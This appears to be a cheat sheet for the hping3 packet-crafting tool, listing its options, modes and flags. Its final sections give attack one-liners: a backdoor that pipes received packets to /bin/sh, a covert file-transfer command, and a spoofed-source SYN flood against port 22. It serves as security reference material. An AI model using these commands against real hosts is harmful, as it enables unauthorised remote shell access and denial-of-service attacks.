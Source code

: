 # Hping3


## **Usage**

```sh
hping3 -h    # Show help
hping3 -v    # Show version
hping3 -c N  # Send N packets
hping3 -i X  # Wait X microseconds between packets
hping3 --fast  # Alias for -i u1000 (10 packets per second)
hping3 --flood  # Send packets as fast as possible
hping3 -n    # Numeric output
hping3 -q    # Quiet mode
hping3 -V    # Verbose mode
```

## **ICMP Usage**

```sh
hping3 -C X  # Set ICMP type (default: echo request)
hping3 -K X  # Set ICMP code (default: 0)
hping3 --force-icmp  # Send all ICMP types
hping3 --icmp-gw  # Set gateway address for ICMP redirect
hping3 --icmp-ts  # ICMP timestamp
hping3 --icmp-addr  # ICMP address subnet mask
```

## **Modes**

```sh
hping3 -0  # RAW IP mode
hping3 -1  # ICMP mode
hping3 -2  # UDP mode
hping3 -8  # SCAN mode (e.g., hping3 --scan 1-30,70-90 -S target.host)
hping3 -9  # Listen mode
```

## **UDP/TCP Parameters**

| Option | Description |
|--------|-------------|
| `-s X` | Set source port |
| `-p X` | Set destination port |
| `-k` | Keep source port unchanged |
| `-w X` | Set TCP window size |
| `-O X` | Set fake TCP data offset |
| `-Q` | Show only TCP sequence numbers |
| `-b` | Send packets with a bad IP checksum |
| `-M X` | Set TCP sequence number |
| `-L X` | Set TCP acknowledgment number |
| `-F` | Set FIN flag |
| `-S` | Set SYN flag |
| `-R` | Set RST flag |
| `-P` | Set PUSH flag |
| `-A` | Set ACK flag |
| `-U` | Set URG flag |
| `-X` | Set X unused flag (0x40) |
| `-Y` | Set Y unused flag (0x80) |

## **IP Options**

| Option | Description |
|--------|-------------|
| `-a X` | Spoof source address |
| `--rand-dest` | Random destination address |
| `--rand-source` | Random source address |
| `-t X` | Set TTL (default: 64) |
| `-N X` | Set packet ID |
| `-f` | Fragment packets |
| `-x` | Set more fragment flag |
| `-y` | Set don't fragment flag |
| `-m X` | Set virtual MTU |
| `-o X` | Set type of service (TOS) |

## **Sniffer Mode**

```sh
hping3 -9 HTTP -I eth0  # Listen and intercept HTTP traffic
```

## **Backdoor**

```sh
hping3 -I eth1 -9 secret | /bin/sh  # Create a simple backdoor
```

## **File Transfer**

```sh
hping3 -1 [IP Addr] -9 signature -I eth0  # Transfer files
```

## **Flooding Attacks**

```sh
hping3 -S [Target IP] -a [Source IP] -p 22 --flood  # Classic flood attack
```


